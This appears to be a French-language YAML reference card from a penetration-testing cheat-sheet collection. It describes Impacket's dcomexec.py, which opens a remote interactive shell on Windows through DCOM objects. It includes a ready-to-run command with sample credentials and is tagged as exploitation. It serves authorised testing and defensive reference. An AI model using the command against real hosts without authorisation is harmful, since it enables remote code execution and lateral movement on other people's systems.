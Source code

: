 ```yaml
---
description: |
  Le fichier dcomexec.py d'Impacket fournit un shell interactif sur l'hôte Windows, similaire à wmiexec.py, mais utilisant différents points d'extrémité DCOM.

  Il prend actuellement en charge les objets DCOM MMC20.Application, ShellWindows et ShellBrowserWindow.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

  	DCOM Object: MMC20
command: |
  python3 dcomexec.py -object MMC20 test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - DCOM
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/
---
```

